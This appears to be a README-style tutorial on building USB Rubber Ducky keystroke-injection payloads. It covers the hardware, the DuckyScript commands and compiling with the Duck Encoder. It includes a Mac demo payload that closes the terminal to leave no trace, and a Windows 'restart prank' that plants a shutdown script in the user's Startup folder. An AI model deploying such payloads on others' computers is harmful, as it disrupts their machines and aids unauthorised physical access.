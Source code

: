 ## Three parts of the Rubber Ducky
1. The mini "keyboard" adapter
2. The microSD card
3. The microSD-to-USB adapter

## Steps to build first payloads
### 1. Download the Duck encoder
Duck encoder is program allows us to convert our ducky script into a cross-platform inject.bin file that the keyboard adapter will use to deliver our keystroke payload. Donload the encoder .jar file at https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/duckencoder.jar to convert your ducky script.

### 2. Insert the microSD card into your computer
If you don’t want to run the payload on your own computer, make sure you swap the microSD card out of the keyboard adapter and into the smaller plastic microSD-to-USB adapter that they provide. This will allow it to mount to your system as a regular USB storage device.

### 3. Create a payload using Ducky script
A full list of commands can be found at https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript
The most common command are:
- REM: Allows you to add comments
- STRING: Type the remainder of the line exactly as-is into the target computer
- ENTER/SPACE: Hit the "enter" or "space" keys
- DELAY: Wait for a miliseconds before continuing<br>

An example of payloads:<br>
REM Author: Hartley Brody<br>
REM Description: Testing Mac Payload<br><br>

DEFAULTDELAY 250<br><br>

REM Wait for the system to get all set up<br>
DELAY 750<br><br>

REM Open the "Spotlight Search" and pull up the terminal/cli<br>
GUI SPACE<br>
STRING terminal<br>
ENTER<br><br>

REM Send a command to the machine through the terminal/cli<br>
STRING say 'you have been hacked'<br>
ENTER<br>
DELAY 2000<br><br>

REM Close the terminal window so there's no trace left behind<br>
GUI q<br><br>

Another example of payload: Restart Prank<br>
REM Open the command line. You don't need admin because you are only adding to the Users Startup Directory<br>
ESCAPE<br>
CONTROL ESCAPE<br>
DELAY 400<br>
STRING cmd<br>
ENTER<br>
DELAY 100<br>
REM start making Shutdown.bat <br>
STRING copy con "%userprofile%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\Shutdown.bat"<br>
STRING @echo off<br>
ENTER<br>
STRING shutdown /r /t 30<br>
REM The shutdown command has many good options '/t' adds a Delay, and '/r' restarts<br>
REM '/s' will shut the computer down and '/l' (L) is to just logoff the user more options are available by running 'shutdown /?'<br>
ENTER<br>
CTRL z<br>
STRING exit<br>
ENTER<br>
### 4. Compile your Ducky script into an inject.bin
To do this, we’ll use the Duck Encoder from step #1 to compile our custom Ducky Script from step #3, and also copy it onto our microSD card.<br>

Type<br>
java -jar ~/Downloads/duckencoder.jar  -i ~/rubber-ducky/hello-world.txt -o /Volumes/NO\ NAME/inject.bin <br>
hello-world.txt is the Ducky script we just created.<br>
When this command runs, you should see output like:<br>

Hak5 Duck Encoder 2.6.3<br><br>

Loading File .....    [ OK ]<br>
Loading Keyboard File ..... [ OK ]<br>
Loading Language File ..... [ OK ]<br>
Loading DuckyScript ..... [ OK ]<br>
DuckyScript Complete..... [ OK ]<br>
If so, you’re done! Your ducky script has been compiled and transferred to the microSD card.<br>
### 5. Test it
Slide out the microSD card and insert it back into the keyboard adapter that it came in. Plug that keyboard adapter into your computer.<br>
If you want to re-rerun the payload without removing and re-inserting the keyboard adapter, you can press the round black button that’s just below the microSD slot.

## Reference
https://blog.hartleybrody.com/rubber-ducky-guide/ <br>
https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---restart-prank
